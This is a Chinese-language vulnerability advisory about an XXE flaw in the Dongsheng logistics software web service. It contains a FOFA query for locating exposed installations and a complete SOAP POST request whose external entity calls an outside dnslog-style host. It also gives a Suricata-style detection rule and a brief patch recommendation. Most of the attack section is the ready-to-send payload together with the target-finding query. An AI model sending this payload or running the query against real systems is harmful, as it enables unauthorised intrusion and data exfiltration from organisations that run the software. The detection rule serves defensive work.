

# 东胜物流软件 UpdateCustomMainfast 存在XXE漏洞

东胜物流软件 UpdateCustomMainfast 存在XXE漏洞

# 影响版本

当前已发所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**  **body=&quot;FeeCodes/CompanysAdapter.aspx&quot; || body=&quot;dhtmlxcombo_whp.js&quot; || body=&quot;dongshengsoft&quot; || body=&quot;theme/dhtmlxcombo.css&quot;**

**POC/EXP：**

**step1**  XXE漏洞-dnslog回显

```
POST /Webservice/DsWebService.asmx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/157.0.0.0 Safari/537.36
Content-Type: application/soap+xml;charset=UTF-8;action="DsWebService/UpdateCustomMainfast"

<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:dsw="DsWebService">
   <soap:Header/>
   <soap:Body>
      <dsw:UpdateCustomMainfast>
         <dsw:Xdoc><![CDATA[<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://yrexovbpxp.zaza.eu.org">
%remote;
]>
<root>1</root>]]></dsw:Xdoc>
         <dsw:XdocAfter>1</dsw:XdocAfter>
         <dsw:Corpid>1</dsw:Corpid>
         <dsw:SenderOp>1</dsw:SenderOp>
         <dsw:SenderHandphone>1</dsw:SenderHandphone>
         <dsw:SenderEmail>1</dsw:SenderEmail>
         <dsw:SenderFax>1</dsw:SenderFax>
         <dsw:Mblno>1</dsw:Mblno>
      </dsw:UpdateCustomMainfast>
   </soap:Body>
</soap:Envelope>
```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"东胜物流软件 - DsWebService.asmx UpdateCustomMainfast XXE注入漏洞";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/Webservice/DsWebService.asmx";
        fast_pattern;
    http.content_type; content:"application/soap+xml"; nocase;
    http.request_body;
        content:"UpdateCustomMainfast"; nocase;
        content:"<!DOCTYPE"; nocase; distance:0; within:200;
        content:"<!ENTITY"; nocase; distance:0;
        content:"SYSTEM"; nocase; distance:0;
        content:"%remote;"; nocase; distance:0;
    metadata:
        service http,
        affected_product "东胜物流软件",
        vulnerability_type "XXE Injection",
        severity "high";
    classtype:web-application-attack;
    sid:1000825;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
